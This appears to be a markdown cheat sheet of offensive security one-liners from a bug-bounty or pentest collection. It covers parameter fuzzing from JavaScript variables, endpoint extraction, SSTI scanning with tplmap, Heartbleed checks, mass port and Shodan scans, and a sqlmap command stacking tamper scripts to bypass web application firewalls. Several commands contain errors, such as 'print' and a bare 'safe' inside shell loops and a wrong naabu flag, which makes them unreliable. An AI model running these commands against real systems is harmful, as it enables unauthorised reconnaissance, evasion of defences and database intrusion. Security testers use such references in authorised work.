 ```
cat subdomains.txt | gauplus -subs -t 100 -random-agent | sort -u --version-sort | httpx -silent -threads 2000 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
---------------------------
## HeartBleed
```
cat urls.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line; safe; done
```
------------------
## Scan IPs
```
cat my_ips.txt | xargs -L100 shodan scan submit --wait 0
```
## Portscan
```
naabu -1 target.txt -rate 3000 -retries 1 -warm-up-time 0 -c 50 -ports 1-65535 -silent -o out.txt
```
## Screenshots using Nuclei
```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```
## IPs from CIDR
```
echo cidr | httpx -t 100 | nuclei -t ~/nuclei-templates/ssl/ssl-dns-names.yaml | cut -d " " -f7 | cut -d "]" -f1 |  sed 's/[//' | sed 's/,/\n/g' | sort -u 
```
## SQLmap Tamper Scripts - WAF bypass
```
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
 --no-cast --no-escape --dbs --random-agent
```
